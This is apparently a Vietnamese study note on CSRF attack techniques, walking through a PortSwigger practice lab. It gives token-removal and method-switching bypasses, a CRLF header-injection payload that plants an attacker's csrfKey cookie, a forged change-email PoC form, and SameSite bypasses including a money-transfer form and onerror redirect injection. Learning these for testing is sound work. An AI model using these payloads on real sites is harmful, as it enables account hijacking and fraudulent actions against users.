



# Các kỹ thuật CSRF

3 yêu cầu để thực hiện <b>CSRF</b>:

- Là bất kì form gửi dữ liệu nào như: đăng nhập, đổi mật khẩu, cập nhập email, thay đổi thông tin cá nhân, ...
- Sử lý phiên dựa trên Cookie
- Các yêu cầu thực hiện hành động không chứa bất kỳ tham số nào có giá trị mà kẻ tấn công không thể xác định hoặc đoán được.

### Lưu ý

Nếu trong Cookie của request có chứa <b>csrfKey</b> thì <b>csrf-token</b> của response sẽ không bị thay đổi và ngược lại. 

## Case 1: Xóa tham số CSRF

Xóa tham số <b>csrf</b> và quan sát xem app có yêu cầu csrf không. Nếu không yêu cầu <b>csrf</b> thì có thể submit form giả mạo mà không cần csrf-token

## Case 2: Thay đổi Method Request

Thay đổi method request từ <b>POST -> GET</b> 

Vì có thể app cố gắng chặn các cuộc tấn công CSRF nhưng chỉ áp dụng biện pháp phòng vệ cho một số loại yêu cầu nhất định.


## Case 3: CSRF token không bị ràng buộc với phiên làm việc

Hai phiên làm việc khác nhau sử dụng được chung 1 token csrf

Token của phiên làm việc của người dùng này dùng được cho phiên làm việc khác của người dùng khác

## Case 4: CSRF token bị ràng buộc bởi phiên (CSRF key nằm trong cookie) - Non Cookie Session (Cookie và session ko ràng buộc với nhau)

Token CSRF bị ràng buộc bởi phiên, hai phiên làm việc khác nhau không sử dụng được chung 1 token csrf

### TEST

<b>B1</b>: Phát hiện có csrfKey trong cookie và tham số csrf trong request, Thử xóa 1 trong 2 csrf và quan sát

- Nếu không có lỗi => server không kiểm tra 1 trong 2 csrf, 2 mã csrf không bị ràng buộc => bypass bình thường
- Nếu có lỗi xảy ra, thay thế 2 mã token của người dùng này tương ứng vào 2 mã token của người dùng khác. 
    - Nếu kết quả thành công => mã csrf này không phụ thuộc vào phiên => Tìm kiếm 1 lỗ hổng khác cho phép thay đổi <b>csrfKey</b> trong cookie của response trả về (Chức năng tìm kiếm, store xss, ..) để làm token trong cookie của victim thay đổi, sau đó sử dụng csrf của csrfKey đó tiền hành tấn công
    - Nếu kết quả không thành công => mã csrf này bị ràng buộc vào phiên, mỗi người dùng có 1 phiên duy nhất.

<b>SOLVE:</b>

Cố gắng chèn csrf-token vào cookie để thay đổi csrf trong cookie của victim 

<b>Example:</b>
(src: portswigger)

Kịch bản:

- Có 2 người dùng <b>wiener</b> và <b>carlos</b>
- Chức năng thay đổi email chứa lỗ hổng csrf
- Có chức năng tìm kiếm lưu lại lịch sử tìm kiếm trong cookie

Mã <b>csrf-token</b> được trả về khi cả 2 người dùng request để load form

User: <b>wiener</b>
```
Request:
GET /my-account?id=wiener HTTP/2
Host: 0a4600af03421613802099f100d70030.web-security-academy.net
Cookie: csrfKey=aRETGwXuQCtitoMiG4BLO9AYAMK1Yfqc; session=2dbrtuKLpVXvQVFusF3IahvdtGS6vV10

Response:
<form action="/my-account/change-email" method="POST">
    <input required type="email" name="email" value="">
    <input required type=hidden name=csrf value=uKC0ExleBGdhwlke0ifgmkUM7VdDmGSd>
    <button type='submit'> Update email </button>
</form>
```

User: <b>carlos</b>

```
Request:
GET /my-account?id=carlos HTTP/2
Host: 0a4600af03421613802099f100d70030.web-security-academy.net
Cookie: csrfKey=dGrmW5jdj00Wi3yA6Z1HbJzzpmDRANJx; session=V3fDnZnSg2If8uGvnWmqDTmRVm8mWHKx

Response:
<form action="/my-account/change-email" method="POST">
    <input required type="email" name="email" value="">
    <input required type=hidden name=csrf value=npiUoRJO2xW1BtqJeT6zT6TUscQt3YmX>
    <button type='submit'> Update email </button>
</form>
```

Chỉ lấy Csrf trong form của <b>wiener</b> không dùng được cho <b>carlos</b>
. Nhưng lấy cả <b>csrf-key</b> trong cookie và csrf trong form của <b>wiener</b> thì dùng được cho <b>carlos</b>

Dường như không có lỗ hổng ở đây.

Thêm nữa trong chức năng tìm kiếm lưu lại lịch sử tìm kiếm trong cookie:
```
User: wiener
Request:
GET /?search=123 HTTP/2
Host: 0a4600af03421613802099f100d70030.web-security-academy.net
Cookie: csrfKey=aRETGwXuQCtitoMiG4BLO9AYAMK1Yfqc; session=2dbrtuKLpVXvQVFusF3IahvdtGS6vV10

Response:
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=123; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3419
```

Như vậy, ý tưởng là chèn csrf của <b>wiener</b> vào tham số <b>LastSearchTerm</b> trong cookie thông qua đối số <b>search</b> rồi lấy url request get gửi cho <b>carlos</b>. Khi <b>carlos</b> truy nhập vào url, cookie csrf của <b>wiener</b> sẽ thay thế csrf do server cấp riêng cho <b>carlos</b>

### Chèn csrf thế nào?

Dựa vào phản hồi <b>Set-Cookie</b>
> Set-Cookie: LastSearchTerm=123; Secure; HttpOnly

Ta có thể sử dụng ký tự <b>CR: %0d</b> và <b> LF:%0a</b> để ngắt dòng trong header response:



decode payload:
```
search=123
Set-Cookie: csrfKey=aRETGwXuQCtitoMiG4BLO9AYAMK1Yfqc; SameSite=None
```
Sử dụng CSRF Poc Generate 
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0aa0008f04f012ed81862506001200a3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1235&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="06gstBgUvaN7ZbTgDTUhtTyvJl8S34eS" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>

```

## Case 5: Các kỹ thuật bypass SameSite

### I. Lý thuyết
Request từ site này đến site kia được gọi là SameSite nếu domain name có:
- Có cùng scheme
- Có cùng TLD và TLD+1



Request từ site này đến site kia được gọi là SameOrigin nếu domain name hoàn toàn giống nhau



### Cách hoạt động SameSite 
SameSite hoạt động bằng cách cho phép trình duyệt và chủ sở hữu trang web giới hạn các yêu cầu trên nhiều trang web, Điều này có thể giúp giảm khả năng người dùng gặp phải các cuộc tấn công CSRF, khiến trình duyệt của nạn nhân đưa ra yêu cầu kích hoạt hành động có hại trên trang web dễ bị tấn công Vì những yêu cầu này thường yêu cầu cookie liên kết với phiên xác thực của nạn nhân nên cuộc tấn công sẽ thất bại nếu trình duyệt không bao gồm cookie này.

Tất cả các trình duyệt chính hiện đều hỗ trợ các mức hạn chế SameSite sau:
- Strict - Nghiêm ngặt

  Nếu trang đích cho yêu cầu không khớp với trang hiện được hiển thị trên thanh địa chỉ của trình duyệt thì nó sẽ không bao gồm cookie khi Request.

- Lax - lỏng lẻo

  Trình duyệt sẽ gửi cookie theo yêu cầu trên nhiều trang web, nhưng chỉ khi đáp ứng cả hai điều kiện sau:
  - Yêu cầu sử dụng phương thức GET
  - Yêu cầu này xuất phát từ việc điều hướng cấp cao nhất của người dùng, chẳng hạn như nhấp vào liên kết.
- None - Không SameSite

  Điều này vô hiệu hóa hoàn toàn các hạn chế của SameSite một cách hiệu quả, bất kể trình duyệt

Thiết lập SameSite bằng cách thêm thuộc tính Saméite vào Header Response trả về bằng cách:
```
Set-Cookie: session=0F8tgdOhi9ynR1M9wa3ODa; SameSite=Strict
```
### I. Bypass Lax SameSite bằng method GET

Sử dụng kiểu ghi đè method từ POST -> GET bằng tham số _method:

```
<form action="https://vulsite.com/account/transfer" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
### II. Bypass Strict Samesite  

Để bypass được Strict SameSite cần 2 điều kiện:
1. Tìm trang nào của web có header respone không có <b>SameSite=Strict</b>
2. Trang đó phải redirect về trang có lỗ hổng csrf, sau đó sử dụng method GET để submit form
  
    Redirect bằng các lỗ hổng như:
    - Path traveral
    - Tiêm tag a có href="../../site-vul?form=attack"
    - Tiêm các tag có event như onerror="document.location='../../site-vul?form=attack'", onload="", ...
    - Nhúng trực tiếp js 

